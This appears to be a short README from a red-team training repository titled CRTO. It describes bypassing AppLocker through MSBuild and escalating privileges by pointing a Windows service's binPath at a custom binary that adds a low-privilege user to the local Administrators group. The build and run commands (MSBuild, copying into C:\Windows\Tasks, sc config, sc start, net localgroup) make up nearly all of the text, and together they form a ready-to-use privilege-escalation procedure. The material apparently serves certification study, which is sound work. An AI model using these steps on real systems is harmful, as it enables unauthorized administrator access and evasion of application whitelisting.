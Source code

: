 # CRTO

Bypass AppLocker via MSBUILD, priv-esc via *service* binary to add low priv user to local administrators group.
## Build

```cmd
  C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe esc.csproj
```
or
```cmd
  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe esc.csproj
```
## Run

```
  copy bin\Release\AnyCPU\YourServiceName.exe C:\Windows\Tasks
  sc config svc_test binPath= "C:\Windows\Tasks\YourServiceName.exe"
  sc start svc_test
  net localgroup administrators
```
